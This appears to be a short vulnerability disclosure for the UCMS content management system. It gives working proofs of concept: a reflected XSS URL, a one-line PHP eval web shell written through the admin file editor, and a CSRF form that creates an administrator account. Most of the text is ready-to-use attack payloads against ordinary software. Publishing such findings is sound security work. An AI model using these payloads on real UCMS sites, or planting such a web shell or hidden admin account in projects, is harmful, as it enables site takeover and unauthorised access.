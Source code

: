 # XSS1
Access URL：http://www.a.com:85/ucms/index.php?do=sadmin_fileedit&dir=/ucms/user/%3Cscript%3Ealert(1)%3C/script%3E&file=mypost.php
![](https://github.com/AvaterXXX/CVEs/blob/master/images/ucms_xss_1-1.png)

-------------------------------------------
# GETSHELL
Create a 1.php file and submit
![](https://github.com/AvaterXXX/CVEs/blob/master/images/ucms_getshell_1-1.png)

Write poc：
`<?php eval($_POST['123']);?>`
![](https://github.com/AvaterXXX/CVEs/blob/master/images/ucms_getshell_1-2.png)

Getshell
![](https://github.com/AvaterXXX/CVEs/blob/master/images/ucms_getshell_1-3.png)

---------------------------------------------
# CSRF
After logging in, use POC to create an administrator account.
```
<html>
  <body>
    <form action="http://www.a.com:85/ucms/?do=user_addpost" method="POST">
      <input type="hidden" name="uuu_token" value="02ed31f4" />
      <input type="hidden" name="nickname" value="123" />
      <input type="hidden" name="username" value="test" />
      <input type="hidden" name="psd" value="test" />
      <input type="hidden" name="psd1" value="test" />
      <input type="hidden" name="b[]" value="1" />
      <input type="hidden" name="b[]" value="2" />
      <input type="hidden" name="alevel" value="3" />
      <input type="hidden" name="s[]" value="0" />
      <input type="hidden" name="s_0[]" value="4" />
      <input type="hidden" name="s[]" value="1" />
      <input type="hidden" name="s_1[]" value="0" />
      <input type="hidden" name="s_1[]" value="1" />
      <input type="hidden" name="s_1[]" value="2" />
      <input type="hidden" name="s_1[]" value="3" />
      <input type="hidden" name="s_1[]" value="4" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```
